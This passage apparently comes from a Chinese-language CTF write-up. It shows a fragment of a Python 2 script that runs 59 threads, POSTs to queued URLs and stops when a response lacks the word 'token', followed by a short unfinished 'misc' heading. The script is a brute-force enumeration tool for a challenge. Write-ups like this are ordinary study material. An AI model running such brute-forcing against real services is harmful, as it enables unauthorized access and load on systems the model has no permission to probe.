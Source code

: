 ```

		words.put(urll)


print "word suceess"

def brufer(words):
	z = 1

	while not words.empty():
		z+=1

		if z == 1000:
			print "1000 pass"
			z = 0


		url = words.get()

		s = requests.Session()

		try:
			r = s.post(url, timeout=4)
		except:
			print "[!]error:" + url
			words.put(url)
			continue

		if "token" not in r.text:
			print "[*]Done" + url
 			print r.text
			exit(0)

		#print "[!]pass: " + url
		time.sleep(1)

	print "something error..."
	exit(0)


for i  in range(0,59):
	t = threading.Thread(target = brufer, args=(words,))
	t.start()

```


无话可说


# misc #

有点儿写不动了，有空再写吧...